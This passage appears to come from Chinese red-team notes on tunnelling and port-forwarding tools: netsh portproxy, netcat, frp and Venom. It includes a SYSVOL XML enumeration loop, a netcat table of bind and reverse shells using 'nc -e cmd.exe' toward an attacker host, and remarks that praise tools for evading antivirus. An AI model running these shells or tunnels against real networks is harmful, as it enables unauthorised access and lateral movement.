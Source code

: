   ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```

略

### 转发工具

> 转发的工具其实也有很多，感觉也不是一定都要全部用上。顺手的，免杀的，就是坠吼的
> 图搬运自酒仙桥作战部队文章

![image](./imgs/transfer.png)

提及一下 socks 。socks目前分为2个版本，socks4和socks5。
socks4 支持 TELNET, FTP, HTTP等TCP协议
socks5支持TCP与UDP，并且支持安全认证方案
他们都不支持ICMP，也就是都不能拿来ping
**所以在使用socks4版本时候，nmap要加上`-sT`和`-Pn`** 来禁止使用 icmp协议

#### Netsh

> netsh是windows自带的，可以用来做端口转发的工具

`netsh interface portproxy add v4tov4 listenport=80 connectport=80 connectaddress=10.10.10.8  protocol=tcp`
在10.10.10.12（windows 10上开启）
![image](./imgs/netsh1.png)
然后在10.10.10.10上访问10.10.10.12的80端口，看到
![image](./imgs/netsh2.png)

#### Nc

| 类型 | A主机（攻击机）      | B主机（反弹机）               |                          |
| ---- | -------------------- | ----------------------------- | ------------------------ |
| 正向 | nc -nvv B主机IP 5555 | nc -l -p 5555 -t -e cmd.exe   | A主机正向连接B主机       |
| 反向 | nc -lvvp 5555        | nc -t -e cmd.exe A主机ip 5555 | A主机监听，B主机反向连接 |

#### frp

> 经典，老FRP了，FRP的功能十分丰富齐全，就不重复做搬运工了，可以直接看[文档](https://github.com/fatedier/frp/blob/v0.33.0/README_zh.md)

#### Venom

> 这个是在看酒仙桥作战部队的时候学习到的，[Venom地址](https://github.com/Dliv3/Venom)

这个项目看起来挺好的，Go写的，落地也没有被杀，估计用的人不是很多吧（我猜

这个工具主要是两个，admin跟agent，一个是主控一个代理，两个都支持监听和主动连接

##### 具体使用

在自己的VPS上开启监听，监听9999端口

![image](./imgs/venom_1.png)

本地主机主动连接

![image](./imgs/venom_2.png)

这时候查看我们的admin端

![image](./imgs/venom_3.png)

可以看到还有其他的功能，`setdes` 设定标识，`getdes` 获取标识 ，`goto` 选择一个节点进行操作，`listen` 开启一个监听（但是咋关掉我还没发现...）， `connect` 这个在多级代理的情况下挺好的，一条路打通了。还有节点之间都可以设置密码，这个比较重要
   ```